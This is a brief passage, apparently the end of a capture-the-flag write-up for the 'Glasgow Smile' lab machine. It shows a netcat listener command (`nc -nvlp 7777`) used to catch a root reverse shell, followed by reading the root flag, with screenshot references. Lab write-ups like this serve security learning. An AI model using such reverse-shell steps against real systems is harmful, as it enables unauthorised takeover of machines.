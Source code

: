 In another terminal window on the attacker machine, run `nc -nvlp 7777` and within a couple of minutes you will have a root connection.

![Glasgow Smile root](/assets/img/Glasgow45.png)

Now, all that's left is to cat root.txt.

![Glasgow Smile root.txt](/assets/img/Glasgow46.png)








